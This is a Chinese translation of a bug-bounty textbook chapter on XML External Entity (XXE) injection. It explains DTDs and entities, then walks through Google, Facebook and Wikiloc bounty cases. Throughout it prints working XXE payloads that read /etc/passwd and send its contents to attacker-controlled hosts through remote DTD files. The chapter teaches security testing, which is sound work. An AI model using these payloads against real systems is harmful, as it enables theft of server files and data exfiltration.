



# 十四、XML 外部实体注入

> 作者：Peter Yaworski

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

XML 外部实体（XXE）漏洞涉及利用应用解析 XML 输入的方式，更具体来说，应用程序处理输入中外部实体的包含方式。为了完全理解理解如何利用，以及他的潜力。我觉得我们最好首先理解什么是 XML 和外部实体。

元语言是用于描述其它语言的语言，这就是 XML。它在 HTML 之后开发，来弥补 HTML 的不足。HTML 用于定义数据的展示，专注于它应该是什么样子。房子，XML 用于定义数据如何被组织。

例如，HTML 中，你的标签为`<title>`, `<h1>`, `<table>`, `<p>`，以及其它。这些东西都用于定义内容如何展示。`<title>`用于定义页面的标题，`<h1>`标签定义了标题，`<table>`标签按行和列展示数据，并且`<p>`表示为简单文本。反之，XML 没有预定义的标签。创建 XML 文档的人可以定义它们自己的标签，来描述展示的内容。这里是一个示例。

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

读完了之后，你可以大致猜测出 XML 文档的目的 -- 为了展示职位列表，但是如果它在 Web 页面上展示，你不知道它看起来是什么样。XML 的第一行是一个声明头部，表示 XML 的版本，以及编码类型。在编写此文的时候，XML 有两个版本，1.0 和 1.1。它们的具体区别超出了本书范围，因为它们在你渗透的时候没什么影响。

在初始的头部之后，标签`<jobs>`位于所有其它`<job>`标签的外面。`<job>`又包含`<title>`、`<compensation>`和`<responsibilities>`标签。现在如果是 HTML，一些标签并不需要（但最好有）闭合标签（例如`<br>`），但是所有 XML 标签都需要闭合标签。同样，选取上面的例子，`<jobs>`是个起始标签，`</jobs>`是对应的闭合标签。此外，每个标签都有名称，并且可以拥有属性。使用标签`<job>`，标签名称就是`job`，但是没有属性。另一方面，`<responsibility>`拥有名称`responsibility`，并拥有属性`optional`，由属性名称`optional`和值`1`组成。

由于任何人可以定义任何标签，问题就来了，如果标签可以是任何东西，任何一个人如何知道如何解析和使用 XML 文档？好吧，一个有效的 XML 文档之所以有效，是因为它遵循了 XML 的通用规则（我不需要列出它们，但是拥有闭合标签是一个前面提过的例子），并且它匹配了它的文档类型定义（DTD）。DTD 是我们继续深入的全部原因，因为它是允许我们作为黑客利用它的一个东西。

XML DTD 就像是所使用的标签的定义文档，并且由 XML 设计者或作者开发。使用上面的例子，我就是设计者，因为我在 XML 中定义了职位文档。DTD 定义了存在什么标签，它们拥有什么属性，以及其它元素里面有什么元素，以及其他。当你或者我创建自己的 DTD 时，一些已经格式化了，并且广泛用于 RSS、RDF、HL7 SGML/XML。以及其它。

下面是 DTD 文件的样子，它用于我的 XML。

```xml
<!ELEMENT Jobs (Job)*> 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> 
<!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0">
```

看一看这个，你可能猜到了它大部分是啥意思。我们的`jobs`标签实际上是 XML `!ELEMENT`，并且可以包含`job`元素。`job`是个`!ELEMENT`，可以包含标题、薪资和职责，这些也都是`!ELEMENT`，并且只能包含字符数据（`#PCDATA`）。最后，`!ELEMENT responsibility`拥有一个可选属性（`!ATTLIST`），默认值为 0。

并不是很难吧？除了 DTD，还有两种还未讨论的重要标签，`!DOCTYPE`和`!ENTITY`。到现在为止，我只说了 DTD 文件是我们 XML 的扩展。要记住上面的第一个例子，XML 文档并不包含标签定义，它由我们第二个例子的 DTD 来完成。但是，我们可以将 DTD 包含在 XML 文档内，并且这样做之后， XML 的第一行必须是`<!DOCTYPE>`元素。将我们的两个例子组合起来，我们就会得到这样的文档：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
]> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

这里，我们拥有了内部 DTD 声明。要注意我们仍然使用一个声明头部开始，表示我们的文档遵循 XML 1.0 和 UTF8 编码。但是之后，我们为 XML 定义了要遵循的`DOCTYPE `。使用外部 DTD 是类似的，除了`!DOCTYPE `是`<!DOCTYPE note SYSTEM "jobs.dtd">`。XML 解析器在解析 XML 文件时，之后会解析`jobs.dtd`的内容。这非常重要，因为`!ENTITY`标签被近似处理，并且是我们利用的关键。

XML 实体像是一个信息的占位符。再次使用我们之前的例子。，如果我们想让每个职位都包含到我们网站的链接，每次都编写地址简直太麻烦了，尤其是 URL 可能改变的时候。反之，我们可以使用`!ENTITY`，并且让解析器在解析时获取内容，并插入到文档中。你可以看看我们在哪里这样做。

与外部 DTD 文档类似，我们可以更新我们的 XML 文档来包含这个想法：

```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity, Website)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
<!ELEMENT Website ANY> 
<!ENTITY url SYSTEM "website.txt"> 
]> 

<jobs>
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
        <website>&url;</website> 
    </job> 
</jobs>
```

这里你会注意到，我继续并添加了`Website`的`!ELEMENT `，但是不是`#PCDATA`，而是`ANY`。这意味着`Website`可以包含任何可解析的数据组合。我也定义了一个`!ENTITY`，带有`SYSTEM`属性，告诉解析器获取`wensite.txt`文件的数据。现在一切都清楚了。

将它们放到一起，如果我包含了`/etc/passwd`，而不是`website.txt`，你觉得会发生什么？你可能户菜刀，我们的 XML 会被解析，并且服务器敏感文件`/etc/passwd`的内容会包含进我们的内容。但是我们是 XML 的作者，所以为什么要这么做呢？

好吧。当受害者的应用可以滥用，在 XML 的解析中包含这种外部实体时，XXE 攻击就发生了。换句话说，应用有一些 XML 预期，但是在接收时却不验证它。所以，只是解析他所得到的东西。例如，假设我正在运行一个职位公告板，并允许你注册并通过 XML 上传职位。开发我的应用时，我可能使我的 DTD 文件可以被你访问，并且假设你提交了符合需求的文件。我没有意识到它的危险，决定天真地解析收到的内容，并没有任何验证。但是作为一个黑客，你决定提交：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///etc/passwd" > 
]> 
<foo>&xxe;</foo>
```

就像你现在了解的那样，当这个文件被解析时，我的解析器会收到它，并且看到内部 DTD 定义了`foo`文档类型，告诉它`foo`可以包含任何可解析的数据，并且有个`!ENTITY xxe`，它应该读取我的`/etc/passwd`文件（`file://`的用法表示`/etc/passwd`的完整的文件 URL 路径），并会将`&xxe;`替换为这个文件的内容。之后你以定义`<foo>`标签的有效 XML 结束了它，这会打印出我的服务器数据。这就是 XXE 危险的原因。

但是等一下，还有更多的东西。如果应用不打印出回应，而是仅仅解析你的内容会怎么样？使用上面的例子，内容会解析但是永远不会反回给我们。好吧，如果我们不包含本地文件，而是打算和恶意服务器通信会怎么样？像是这样：

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY % xxe SYSTEM "file:///etc/passwd" > 
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;"> 
]> 
<foo>&callhome;</foo>

```

在解释它之前，你可能已经注意到我在`callhome` URL 中使用了`%`来代替`&`，`%xxe`。这是因为`%`用于实体在 DTD 定义内部被求值的情况，而`&`用于实体在 XML 文档中被求值的情况。现在，当 XML 文档被解析，` callhome !ENTITY `会读取`/etc/passwd`的内容，并远程调用`http://www.malicous.com`，将文件内容作为 URL 参数来发送，因为我们控制了该服务器，我们可以检查我们的日志，并且足够确保拥有了`/etc/passwd`的内容。Web 应用的游戏就结束了。

所以，站点如何防范 XXE 漏洞？它们可以禁止解析任何外部实体。

> 链接

> 查看 [OWASP 外部实体（XXE）解析](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

> [XXE 速查表](http://www.silentrobots.com/blog/2014/09/02/xe-cheatsheet)

## 示例

### 1\. Google 的读取访问

难度：中

URL：`google.com/gadgets/directory?synd=toolbar `

报告链接：`https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers`

报告日期：2014.4

奖金：$10000

描述：

了解 XML 以及外部实体之后，这个漏洞实际上就非常直接了。Google 的工具栏按钮允许开发者定义它们自己的按钮，通过上传包含特定元数据的 XML 文件。

但是，根据 Detectify 小组，通过上传带有` !ENTITY `，指向外部文件的 XML 文件，Google 解析了该文件，并渲染了内容。因此，小组使用了 XXE 漏洞来渲染服务器的`/etc/passwd`文件。游戏结束。



Google 内部文件的 Detectify 截图

> 重要结论

> 大公司甚至都存在漏洞。虽然这个报告是两年之前了，它仍然是一个大公司如何犯错的极好的例子。所需的 XML 可以轻易上传到站点，站点使用了 XML 解析器。但是，有时站点不会产生响应，所以你需要测试来自 OWASP 速查表的其它输入。

### 2\. Facebook 单词 XXE 

难度：难

URL：` facebook.com/careers `

报告链接：`http://www.attack-secure.com/blog/hacked-facebook-word-document`

报告日期：2014.4

奖金：$6300

描述：

这个 XXE 有一些区别，并且比第一个例子更有挑战，因为它涉及到远程调用服务器，就像我们在描述中讨论的那样。

2013 年末，Facebook 修补了一个 XXE 漏洞，它可能会升级为远程代码执行漏洞，因为`/etc/passwd`文件的内容是可访问的。奖金约为$30000。

因此，在 Mohamed 于 2014 年 4 月挑战自己来渗透 Facebook 的时候，它不认为 XXE 可能存在，直到他发现它们的职位页面允许用户上传`.docx`文件，它可以包含 XML。对于那些不知道的人，`.docx`文件只是个 XML 文件的压缩包。所以，根据 Mohames，它创建了一个`.docx`文件，并使用 7zip 打开它来提取内容，并将下面的载荷插入了一个 XML 文件中。

```xml
<!DOCTYPE root [ 
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % dtd SYSTEM "http://197.37.102.90/ext.dtd"> 
%dtd; 
%send; 
]]>
```

你会想到，在解析的时候，如果受害者开启了外部实体，XML 解析器会调用远程主机。要注意`!ENTITY `定义中和下面使用了`%`。这是因为这些占位符用在 DTD 自身中。在收到请求调用之后，远程服务器会发送回 DTD 文件，像这样：

```xml
<!ENTITY send SYSTEM 'http://197.37.102.90/?%26file;'>"
```

所以，回到文件中的载荷：

1.  解析器会将`%dtd;`替换为获取远程 DTD 文件的调用。

2，  解析器会将`%send;`替换为服务器的远程调用，但是`%file;`会替换为`file:///etc/passwd`的内容。

所以，Mohamed 使用 Python 和`SimpleHTTPServer`开启了一台本地服务器，并等待接收：



Facebook 远程调用的攻击截图

在报告之后，Facebook 发送了回复，拒绝了这个报告，并说它们不能重现它，并请求内容的视频验证。在交换一些信息之后，Facebook 提到招聘人员可能打开了文件，它会发送任意请求。Facebook 自傲组做了一些深入的挖掘，并给予了奖金，发送了一个邮件，解释了这个 XXE 的影响比 2013 年初的要小，但是仍然是一个有效的利用，这里是这个信息。



Facebook 官方回复

> 重要结论

> 这里有一些重要结论。XML 文件以不同形式和大小出现。要留意接受`.docx`、`.xlsx`、`.pptx`，以及其它的站点。向我之前提到过的那样，有时候你不会直接从 XXE 收到响应，这个示例展示了如何建立服务器来接受请求，它展示了 XXE。

> 此外，像我们的例子中那样，有时报告一开始会被拒绝。拥有信息和耐心和你报告的公司周旋非常重要。尊重他们的决策，同时也解释为什么这可能是个漏洞。

### 3\. Wikiloc XXE

难度：高

URL：`wikiloc.com`

报告链接：`http://www.davidsopas.com/wikiloc-xxe-vulnerability`

报告日期：2015.10

奖金：Swag 

描述：

根据他们的站定，Wikiloc 是个用于发现和分享最佳户外远足、骑车以及许多其他运动记录的地方。有趣的是，他们也让用户通过 XML 文件上传他们自己的记录，这就对例如 David Soaps 之类的骑手非常有吸引力了。

基于他们的 Write Up，David 注册了 Wikiloc，并注意到了 XML 上传点，决定测试它有没有 XXE 漏洞。最开始，它从站点下载了文件来判断 XML 结构，这里是一个`.gpx`文件，并插入了`*<!DOCTYPE foo [<!ENTITY xxe SYSTEM “http://www.davidsopas.com/XXE” > ]>;`。

之后它调用了`.gpx`文件中 13 行的记录名称中的实体。

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://www.davidsopas.com/XXE" > ]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk>
<name>&xxe;</name>
<trkseg> 
<trkpt lat="40.737758000" lon="-8.093361000"> 
<ele>178.000000</ele> 
<time>2009-01-10T14:18:10Z</time> 
(...)
```

这产生了发往服务器的 HTTP GET 请求，` GET 144.76.194.66 /XXE/ 10/29/15 1:02PM Java/1.7.0_51`。这有两个原因值得注意，首先，通过使用一个概念调用的简单证明，David 能够确认服务器求解了它插入的 XML 并且进行了外部调用。其次，David 使用现存的 XML 文件，以便时它的内容满足站点所预期的结构。虽然它没有讨论这个，调用它的服务器可能并不是必须的，如果它能够服务`/etc/passwd`文件，并将内容渲染在`<name>`元素中。

在确认 Wikiloc 会生成外部 HTTP 请求后，唯一的疑问就是，是否它能够读取本地文件。所以，它修改了注入的 XML，来让 Wikiloc 向他发送它们的`/etc/passwd`文件内容。

```xml
<!DOCTYPE roottag [ 
<!ENTITY % file SYSTEM "file:///etc/issue"> 
<!ENTITY % dtd SYSTEM "http://www.davidsopas.com/poc/xxe.dtd"> 
%dtd;]> 
<gpx 
version="1.0" 
creator="GPSBabel - http://www.gpsbabel.org" 
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns="http://www.topografix.com/GPX/1/0" 
xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix.com/GPX/1/1/gpx.xsd"> 
<time>2015-10-29T12:53:09Z</time> 
<bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000" maxlon="-8.037170000"/> 
<trk> 
<name>&send;</name> 
(...)
```

这看起来十分熟悉。这里他使用了两个实体，它们都在 DTD 中求值，所以它们使用`%`定义。`&send;`在`<name>`标签中的的引用实际上由返回的`xxe.dtd`文件定义，他的服务器将其发送回 Wikiloc。这里是这个文件：


```xml
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY % all "<!ENTITY send SYSTEM 'http://www.davidsopas.com/XXE?%file;'>"> 
%all;

```

要注意`%all;`实际上定义了`!ENTITY send`，我们刚刚在`<name>`标签中注意到它。这里是求值的过程：

1.  Wikiloc 解析了 XML，并将`%dtd;`求值为 David 的服务器的外部调用。
2.  David 的服务器向 Wikiloc 返回了`xxe.dtd`文件。
3.  Wikiloc 解析了收到的 DTD文件，它触发了`%all;`的调用。
4.  当`%all;`求值时，它定义了`&send;`，它包含`%file;`实体的调用。
5.  `%file;`在 URL 值中被替换为`/etc/passwd`文件的内容。
6.  Wikiloc 解析了 XML 文件，发现了`&send;`实体，它求值为 David 服务器的远程调用，带有`/etc/passwd`的内容，作为 URL 中的参数。

用他自己的话来说，游戏结束了。

> 重要结论

> 像之前提到的那样，这是一个不错的例子，展示了如何使用来自站点的 XML 模板，来组装你自己的 XML 实体，便于让目标合理地解析文件。这里，Wikiloc 期待`.gpx`文件，而 David 保留了该结构，在预期标签中插入了他自己的 XML 实体，也就是`<name>`标签。此外，观察如何处理恶意 DTD 文件很有意思，并且可以用于随后让目标向你的 服务器发送 GET 请求，带有文件内容作为 URL 参数。

## 总结

XXE 表示一类有巨大潜力的有趣的攻击向量。有几种方式来完成，就像我们之前看到的那样，它能够让漏洞应用打印自己的`/etc/passwd`文件，以`/etc/passwd`文件来调用远程服务器，以及请求远程 DTD 文件，它让解析器来使用`/etc/passwd`文件调用服务器。

作为一个黑客，要留意文件上传，特别是那些接受一些 XML 类型的上传，应该始终测试它们是否存在 XXE 漏洞。
